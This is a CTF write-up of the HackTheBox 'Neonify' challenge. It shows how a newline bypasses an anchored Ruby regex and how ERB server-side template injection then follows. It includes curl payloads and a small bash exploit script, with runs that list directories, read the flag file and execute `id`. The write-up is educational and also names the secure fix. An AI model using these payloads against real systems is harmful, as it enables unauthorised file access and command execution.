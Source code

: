 ```yaml
---
title: "Neonify"
date: 2023-02-23
link: 
tags:
- writeups
---
```


**Description**: It's time for a shiny new reveal for the first-ever text neonifier. Come test out our brand new website and make any text glow like a lo-fi neon tube!

## Enumeration
The challenge provides us with the source code. However, before diving into it I like to just see what I'm dealing with & play around a little. Then review the deployment stack for anything useful.

### Website
![[write-ups/images/Pasted image 20230223144324.png]]

Nothing to crazy, it seems to be a single page web app that contains a simple form that `POST`s to `/` with the `neon` parameter which returns our input with a glow style.

First thing I thought was to try XSS, but it seems that the app is filtering our input in some way in the backend, since I got a **Malicious Input Detected** message with a simple `<`. I was curious to find out what chars are filtered, but it looks like most of them are.

Also note that the web app is built with [sinatra](https://sinatrarb.com/) -- a framework for creating web applications in Ruby with minimal effort:

![[write-ups/images/Pasted image 20230223173542.png]]

### Source Code
It's probably the time to dive into the source code to see how the filtering is done & get a better idea of what we're dealing with. Aaaand it's in ruby.... Guess i should've figured it out by the 4 giant rubies in front of me 

![](https://media3.giphy.com/media/U4VXRfcY3zxTi/200.webp?cid=ecf05e47l1mnwe1kookbqls2vl9m39nde75107etpjk7r073&rid=200.webp&ct=g)

There's just 1 file worth noting here `neon.rb`:
```ruby
class NeonControllers < Sinatra::Base

  configure do
    set :views, "app/views"
    set :public_dir, "public"
  end

  get '/' do
    @neon = "Glow With The Flow"
    erb :'index'
  end

  post '/' do
    if params[:neon] =~ /^[0-9a-z ]+$/i
      @neon = ERB.new(params[:neon]).result(binding)
    else
      @neon = "Malicious Input Detected"
    end
    erb :'index'
  end

end
```

- The `neon` parameter that is `POST`ed is passed further into the template, handled by [ERB](https://rubyapi.org/o/erb)
- There's a regex validation which only allows alphanumeric chars, numbers and spaces

So it will require a 2 step aproach: a Server Side Template Injection *(STTI)* and finding a way to bypass the validation regex

## Exploitation

### Regex Bypass
First we need to find a way to bypass the regex. Taking a look at the regex with on [online regex editor](https://rubular.com/) allowed me to play with & understand it more:
- `^[0-9a-z ]` - start of line accepts only alphanumeric chars, numbers and spaces
- `+$` - indicates the end of line
- `i` - case insensitive

As it turns out, because it only checks our input from the start to the end of the 1st line, we can bypass it by simply adding a new line which will not be validated by the regex:

![[write-ups/images/Pasted image 20230223174949.png]]

> Apparently [the secure way of doing this](https://docs.guardrails.io/docs/vulnerabilities/ruby/insecure_use_of_regular_expressions) is to replace `^` with `\A` and `$` with `\z`

We can test this using curl:
```bash
╰─ curl -X POST -d 'neon=wow%0A<>/;[]all of this is now allowed' http://165.22.118.85:31202
<!DOCTYPE html>
<html>
<head>
    <title>Neonify</title>
    <link rel="stylesheet" href="stylesheets/style.css">
    <link rel="icon" type="image/gif" href="/images/gem.gif">
</head>
<body>
    <div class="wrapper">
        <h1 class="title">Amazing Neonify Generator</h1>
        <form action="/" method="post">
            <p>Enter Text to Neonify</p><br>
            <input type="text" name="neon" value="">
            <input type="submit" value="Submit">
        </form>
        <h1 class="glow">wow
<>/;[]all of this is now allowed</h1>
    </div>
</body>
</html>
```


### STTI
Moving on to actually testing it with a STTI payload:
```bash
# notice the empty space before %0A 
# this is required to properly run the payload
╰─ curl -X POST -d 'neon= %0A<%= 7*7 %>' http://165.22.118.85:31202
Invalid query parameters: invalid %-encoding (%0A&amp;lt;%= 7*7 %&amp;gt;)
```

This is not working because we need to urlencode it, so after doing this we get:
```bash
╰─ curl -X POST -d 'neon= %0A%3c%25%3d%20%37%2a%37%20%25%3e%0a%0a%0a%0a%0a%0a' http://165.22.118.85:31202
...
<h1 class="glow">
	49
</h1>
...
```
Now that we have confirmed our template injection, [let's look @ how we can read files or execute system commands](https://www.trustedsec.com/blog/rubyerb-template-injection/). We can also create a simple bash script to make things easier:
```bash
#!/bin/bash

URL="http://165.22.118.85:31202/"
pay=$(echo "$1" | xxd -p|tr -d \\n|sed 's/../%&/g')

curl -X POST -d "neon= %0a$pay" $URL
```

Then just use it:
```bash
# list dirs
╰─ bash exp.sh "<%= Dir.entries('/') %>"
<h1 class="glow">
["lib", "var", "proc", "usr", "dev", "bin", "media", "..", "opt", "root", "mnt", "sbin", "etc", "sys", "run", "srv", "tmp", ".", "home", "app"]
</h1>

# read files
╰─ bash exp.sh "<%= File.open('./flag.txt').read %>"
<h1 class="glow">
HTB{r3******3n7_s3*****y}
</h1>

# exec cmd
╰─ bash exp.sh '<%= `id` %>'
<h1 class="glow">
uid=1000(www) gid=1000(www) groups=1000(www)
</h1>
```


## Refs
- [challenge](https://app.hackthebox.com/challenges/303)
- [rubular](https://rubular.com/)
- [haktricks STTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

## See Also
- [[write-ups/HTB]]
